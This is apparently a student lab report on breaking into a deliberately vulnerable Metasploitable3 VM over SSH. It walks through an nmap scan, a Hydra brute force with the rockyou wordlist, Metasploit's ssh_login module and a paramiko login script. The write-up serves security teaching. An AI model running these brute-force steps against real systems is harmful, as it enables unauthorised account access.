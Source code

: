 # ICS344 Project – Phase 1 Report

**Title:** SSH Service Exploitation on Metasploitable3  
**Student:** Sultan Alatawi  
**Date:** April 27, 2025

---

## Objective
The goal of Phase 1 is to exploit a vulnerable SSH service running on a Metasploitable3 virtual machine (victim) using a Kali Linux machine (attacker).  
This phase demonstrates successful brute-force attacks using Hydra, manual exploitation via Metasploit Framework, and automation through a custom Python script (Proof of Concept).

---

## Environment Setup
- **Attacker Machine:** Kali Linux  
  - IP Address: `192.168.8.164/24`
- **Victim Machine:** Metasploitable3 Ubuntu 14.04  
  - IP Address: `192.168.8.165/24`
- **Network Setup:** Both machines are configured on the same private subnet (`192.168.8.x`) to allow direct communication.

Both VMs were connected through a host-only/private network ensuring no external internet access during testing.

---

## Task 1.1: Manual Exploitation Using Metasploit

### Step-by-Step Actions:

1. **Network Connectivity Test:**

   Verified communication between attacker and victim:

   ```bash
   ping 192.168.8.165
Successful replies confirmed network connectivity.

Scanning the Victim with Nmap:

Discovered open ports and running services:

bash
Copy
Edit
nmap -sV 192.168.8.165
Key findings:

Port 22/tcp (SSH) - OpenSSH 6.6.1p1

Port 21/tcp (FTP) - ProFTPD 1.3.5

Port 80/tcp (HTTP) - Apache httpd 2.4.7

Brute-Forcing SSH with Hydra:

Attempted to brute-force SSH login credentials:

bash
Copy
Edit
hydra -l vagrant -P /usr/share/wordlists/rockyou.txt ssh://192.168.8.165
Result:

Username: vagrant

Password: vagrant

Launching Metasploit Framework:

Started Metasploit:

bash
Copy
Edit
sudo msfconsole
Exploiting SSH Using Metasploit:

Loaded the SSH login module:

bash
Copy
Edit
use auxiliary/scanner/ssh/ssh_login
Set necessary options:

bash
Copy
Edit
set RHOSTS 192.168.8.165
set USERNAME vagrant
set PASSWORD vagrant
set STOP_ON_SUCCESS true
run
Opening the SSH Session:

After successful login:

bash
Copy
Edit
sessions
sessions -i 1
Verifying Shell Access:

Executed simple commands inside the victim machine:

bash
Copy
Edit
whoami
uname -a
Output:

Current user: vagrant

Operating System: Ubuntu 14.04 LTS

Proofs:
*(Insert screenshots here:

Nmap output

Hydra successful login

Metasploit session opening

whoami output inside victim)*

Task 1.2: Automated Exploitation Using a Custom Python Script
Step-by-Step Actions:
Installing Python SSH Library:

Installed paramiko for SSH communication:

bash
Copy
Edit
sudo apt update
sudo apt install python3-pip
pip3 install paramiko
Developing the Custom Script:

Created a script ssh_exploit.py to automate the login process:

python
Copy
Edit
import paramiko

target_ip = "192.168.8.165"
port = 22
username = "vagrant"
password = "vagrant"

def ssh_connect(ip, port, user, passwd):
    client = paramiko.SSHClient()
    client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    try:
        client.connect(ip, port=port, username=user, password=passwd)
        print(f"[+] Connected successfully to {ip} via SSH!")
        stdin, stdout, stderr = client.exec_command("whoami")
        print("[+] Command output:")
        print(stdout.read().decode())
        client.close()
    except Exception as e:
        print(f"[-] Connection failed: {e}")

if __name__ == "__main__":
    ssh_connect(target_ip, port, username, password)
Running the Script:

Executed the exploit:

bash
Copy
Edit
python3 ssh_exploit.py
Verifying Access:

Output confirmed successful login as vagrant and execution of commands on the victim machine.

Proofs:
*(Insert screenshots here:

Running ssh_exploit.py script

Successful SSH connection output

whoami command execution)*
